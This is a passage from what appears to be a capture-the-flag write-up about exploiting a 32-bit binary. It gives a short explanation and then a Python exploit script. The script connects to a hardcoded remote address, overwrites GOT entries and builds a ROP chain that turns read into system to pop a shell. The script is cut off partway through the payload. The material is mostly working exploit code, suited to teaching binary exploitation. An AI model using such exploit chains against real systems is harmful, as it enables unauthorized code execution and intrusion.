 The second gadget allows me to adjust values. Because `libc` is given, the output of `nm -D ./libc.so.6` could be grepped for `system` and `read`. By carefully choosing the numbers, I could adjust the GOT pointer for read. I decided to write out `sh;` into an empty piece of GOT memory. Finally, ret2system via `read@plt` and pop a shell!

The final exploit:

```python
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('localhost', 6666))
    s.connect(('202.112.28.115', 5149))
    
    raw_input()
    
    readtil('choice: ')
    sendln('1')     # input flag
    
    # gadgets 
    # 0x08048d8c : pop ebx; pop esi; pop edi; pop ebp; ret
    # 0x08048aff : add [edi + 0x5d], bl; ret
    
    # start building the ropchain
    payload = ''
    # 0x8048d89 : used to overwrite stack_chk_fail@got and pivot the stack into our ROP chain
    payload += p(0x8048d89) 
    payload += '0000'*2 # junk
    
    # from libc.6.so:
    # 00040190 W system
    # 000dabd0 W read
    
    ### first byte
    payload += p(0x08048d8c)
    payload += p(0xffffffc0)    # ebx, lower byte is important read -> system (0xd0 + 0xc0 = 0x190)
    payload += p(-1)            # esi
    payload += p(0x804b00c-0x5d)        # edi -> read@got
    payload += p(-1)            # ebp
    payload += p(0x08048aff)    # 0x08048aff
    ### second byte
    payload += p(0x08048d8c)
    payload += p(0xffffff56)    # ebx, lower byte is important read -> system (0xab + 0x56 = 0x101) 0x56 = V == not leetified
    payload += p(-1)            # esi
    payload += p(0x804b00d-0x5d)        # edi -> read@got
    payload += p(-1)            # ebp
```